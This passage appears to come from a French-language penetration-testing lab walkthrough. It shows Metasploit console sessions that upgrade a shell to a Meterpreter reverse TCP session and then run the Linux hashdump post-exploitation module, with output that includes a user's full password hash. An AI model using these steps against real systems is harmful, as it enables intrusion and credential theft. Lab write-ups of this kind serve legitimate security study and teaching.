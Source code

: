 ```sh
  meterpreter/reverse_tcp is used on Windows and Linux, with 
  'python/meterpreter/reverse_tcp' used on all others.

msf6 post(multi/manage/shell_to_meterpreter) > set LHOST 192.168.3.8
LHOST => 192.168.3.8
msf6 post(multi/manage/shell_to_meterpreter) > set SESSION 2
SESSION => 2
msf6 post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 2
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.168.3.8:4433 
[*] Sending stage (976712 bytes) to 192.168.3.173
[*] Meterpreter session 3 opened (192.168.3.8:4433 -> 192.168.3.173:48406) at 2021-01-25 16:11:34 +0100

```

## Utiliser le module hashdump

```bash
msf6 post(multi/manage/shell_to_meterpreter) > use post/linux/gather/hashdump
msf6 post(linux/gather/hashdump) > info

       Name: Linux Gather Dump Password Hashes for Linux Systems
     Module: post/linux/gather/hashdump
   Platform: Linux
       Arch: 
       Rank: Normal

Provided by:
  Carlos Perez <carlos_perez@darkoperator.com>

Compatible session types:
  Meterpreter
  Shell

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  SESSION  2                yes       The session to run this module on.

Description:
  Post Module to dump the password hashes for all users on a Linux 
  System

msf6 post(linux/gather/hashdump) > set SESSION 3
SESSION => 3
msf6 post(linux/gather/hashdump) > run

[+] marlinspike:$6$wQb5nV3T$xB2WO/jOkbn4t1RUILrckw69LR/0EMtUbFFCYpM3MUHVmtyYW9.ov/aszTpWhLaC2x6Fvy5tpUUxQbUhCKbl4/:1000:1000:marlinspike,,,:/home/marlinspike:/bin/bash
[+] Unshadowed Password File: /home/kali/.msf4/loot/20210125161302_default_192.168.3.173_linux.hashes_892766.txt
[*] Post module execution completed
```

